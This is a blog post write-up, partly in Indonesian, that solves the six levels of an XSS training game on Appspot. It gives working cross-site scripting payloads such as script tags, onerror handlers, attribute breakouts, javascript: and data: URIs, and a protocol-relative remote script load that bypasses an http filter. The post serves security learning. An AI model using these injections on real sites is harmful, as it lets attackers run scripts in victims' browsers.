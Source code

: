 ```yaml
---
layout: post
title: "Writeup XSS Appspot"
description: "Writeup XSS Appspot"
headline: 
modified: 2017-01-31
category: Web Exploitation
tags: [xss,ctf,web]
imagefeature: /images/xss-appspot.PNG
mathjax: 
chart: 
comments: true
featured: false
---
```


## Level 1

### Problem

This level demonstrates a common cause of cross-site scripting where user input is directly included in the page without proper escaping. 

Interact with the vulnerable application window below and find a way to make it execute JavaScript of your choosing. You can take actions inside the vulnerable window or directly edit its URL bar.
    
### Solution

parameter query langsung masuk sebagai html jadi kita bisa kirim payload `<script>alert(1)</script>`


## Level 2

### Problem

Web applications often keep user data in server-side and, increasingly, client-side databases and later display it to users. No matter where such user-controlled data comes from, it should be handled carefully. 

This level shows how easily XSS bugs can be introduced in complex apps.

### Solution 

Payload `<img src="x" onerror="alert(1)">`


## Level 3

### Problem 

As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood. 

The application on this level is using one such hidden sink.

### Solution 

dari potongan javascript ini 

``` javascript

    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
    
```

yang menarik adalah bagian ini `html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
terlihat input kita masuk ke tag img kemudian di tambain " .jpg' "
maka kita bisa kirim payload gambar yang tidak ada , dan kita tambahkan event onerror
payload `' onerror=alert(1) alt='`


## Level 4

### Problem

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear. This level shows why.

### Solution

disini fungsi start timer di panggil di dalam onload event dan input kita masuk ke parameter dari fungsi starttime
karena dalam event html kita bisa panggil multiple function jadi kita bisa tambahin function alert pake separator ;
`200');alert(1)` tapi itu belum work sebelum kita kirim pake url encode `200%27%29%3Balert%28%271`

## Level 5

### Problem 

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

### Solution

Input kita di parameter ?next= itu masuk ke dalam tag `<a href="{next}">`
simple kita bisa inject javascriptnya

`javascript:alert(1)`

atau juga bisa pake `data:text/html,<script>alert(1);</script>` yang di urlencode jadi
`data%3Atext%2Fhtml%2C%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E`

## Level 6

### Problem

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

### Solution

Kita ngak bisa pake protocol http atau https untuk load file nya
karena dia ada cek

``` javascript

if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
      
```

kita host `alert(1)` ke pastebin terus kita load tapi bukan pake http atau https atau protokol lain tapi
pake `//pastebin.com/raw/6aV0qLz3`

read more : [2 Forward slashes](http://stackoverflow.com/questions/9646407/two-forward-slashes-in-a-url-src-href-attribute/9646435#9646435)


![](/images/solve-xss.PNG)